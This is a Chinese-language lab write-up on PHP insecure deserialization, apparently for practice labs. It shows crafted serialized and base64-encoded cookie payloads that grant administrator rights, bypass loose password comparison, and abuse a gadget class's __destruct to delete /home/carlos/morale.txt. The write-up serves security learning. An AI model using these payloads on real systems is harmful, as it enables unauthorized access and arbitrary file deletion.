 ### 用户可控的序列化数据中存在垂直越权漏洞

如下是 wiener 用户的 cookie。cookie 解码后，是序列化数据。

![image-20250505153021557](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/images/image-20250505153021557.png)

将最后的 bool 类型数据改为 1，使得 wiener 被系统认定为管理员。

![image-20250505153203894](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/images/image-20250505153203894.png)

### php 中宽松的数据对比逻辑

整数与字符串比较：

- 以数字开头的字符串会被转换为对应整数，如 `5 == "5 of something"` 等价于 `5 == 5`（结果为`true`）。
- 特殊情况：PHP 7.x 及更早版本中，非数字开头的字符串（如`"Example string"`）会被转换为`0`，导致 `0 == "Example string"` 结果为`true`。

```php
$login = unserialize($_COOKIE); // 反序列化用户可控的Cookie数据
if ($login['password'] == $password) { // 使用宽松比较验证密码
    // 登录成功
}

// 如果以上情况出现 0 == "Example string"
// 那么 php 错误判断登录成功。
```

![image-20250505154106077](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/images/image-20250505154106077.png)

cookie 解码后，是序列化数据。

![image-20250505154159894](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/images/image-20250505154159894.png)

```
# 推测使用 access_token 登录。且后端逻辑存在：0 == $access_token 这一情况。

O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```

### 用户可控的序列化数据中存在水平越权漏洞

通过如下数据包删除用户：

![image-20250505155220600](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/images/image-20250505155220600.png)

其实删除用户，就是删除 cookie 中的 avatar_link 对应的文件。

![image-20250505155345360](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/images/image-20250505155345360.png)

那么你可以篡改 cookie 里的内容，删除系统指定文件。

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"a7meaq5y193ge6e73zs1pufl29gohew3";s:11:"avatar_link";s:18:"users/gregg/avatar";}

O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"a7meaq5y193ge6e73zs1pufl29gohew3";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}

Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImE3bWVhcTV5MTkzZ2U2ZTczenMxcHVmbDI5Z29oZXczIjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30%3d
```

### gadget 链的利用

gadget 链（小工具链）其实就是某些类实现了危险行为的方法，通过一连串的类的方法的调用来触发这个危险行为的链。

通常情况下，只要系统存在反序列化这一行为，那么你可以传递**目标应用程序或其依赖库中定义的、可被反序列化机制实例化并自动调用其方法的类**给应用程序的反序列化接口。

但凡这些类中的某些方法，使用了一些不安全的行为，都可以被当作 gadget 链来进行利用。简单利用流程如下：

- 分析类的相关代码。
- 如果类的方法中存在危险操作，分析是否可以通过一连串的其他类的方法来实例化对象并调用这个方法。
- 构造序列化数据，将序列化数据传递给反序列化接口，等待此对象触发敏感行为。

真实情况中，类的相关代码会非常复杂，可能需要多个类进行逆向分析。

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }
	
    // 当实例化对象销毁时，将调用此函数。
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {	// 如果 $this->lock_file_path 文件存在，直接删除。
            unlink($this->lock_file_path);
        }
    }
}

?>
    
// 那么只要构造一个 $this->lock_file_path == "/home/carlos/morale.txt" 的对象。
// 当此对象销毁时自动删除 "/home/carlos/morale.txt" 文件。
```

```
# 构造好反序列化数据，等待触发删除文件操作。
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3d%3d
```

